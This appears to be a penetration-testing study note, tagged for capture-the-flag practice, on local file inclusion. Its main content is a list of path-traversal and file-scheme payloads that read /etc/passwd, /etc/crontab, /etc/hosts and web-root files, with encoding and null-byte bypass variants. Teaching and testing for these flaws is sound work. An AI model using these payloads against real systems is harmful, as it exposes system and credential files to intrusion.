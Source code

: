 ```yaml
---
title: FILE INCLUSION (LFI/RFI)
date: 2023-05-10 00:43:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


The intent of this document is to help penetration testers and students identify and test LFI vulnerabilities on future penetration testing engagements by consolidating research for local file inclusion LFI testing techniques. LFI vulnerabilities are typically discovered during web app pen tests using the techniques contained within this document. Additionally, some of the techniques mentioned in this paper are also commonly used in CTF style competitions.

Local File Inclusion (LFI) and Remote File Inclusion (RFI) are vulnerabilities that are often found to affect web applications that rely on a scripting run time.

# Local File Inclusion (LFI)

`Payload`

```js
?page=../
?page=/etc/passwd
?page=../../../../etc/passwd
?page=../../../../../etc/passwd
?page=..//..//..//..//..//etc/passwd
?page=....//....//....//....//etc/passwd
?page=....//....//....//....//....//....//etc/passwd
?page=../../../../../../../../../../../../../../etc/passwd
?page=..\/..\/..\/..\/etc/passwd
?page=..%2F..%2F..%2F..%2Fetc/passwd
?page=..%5C..%5C..%5C..%5cetc/passwd
?page=..%252f..%252f..%252f..%252fetc/passwd
?page=/etc/passwd&
?page=/etc/passwd%00
?page=/etc/passwd%00.inc
?page=/etc/passwd%00.php
?page=http://localhost/index
?page=http:%5c%5cindex
?page=http:%252f%252findex
?page=somedir/../../../../etc/passwd&ext=

# File scheme
?page=file:///etc/passwd
?page=file:%2F%2F%2Fetc%2Fpasswd
?page=file:%252F%252F%252Fetc%252Fpasswd
?page=file%3A///etc/passwd
?page=file%3A%2F%2F%2Fetc%2Fpasswd
?page=file%3A%252F%252F%252Fetc%252Fpasswd
?page=file://var/www/html/index.php
?page=file://var/www/<subdomain>/index.php

# Host
?page=/etc/hosts
# Cron
?page=/etc/crontab

# Web root
?page=/var/www/html/index.html
?page=/var/www/html/index.php
?page=/var/www/example.com/index.php
?page=/var/www/sudomain/index.php
```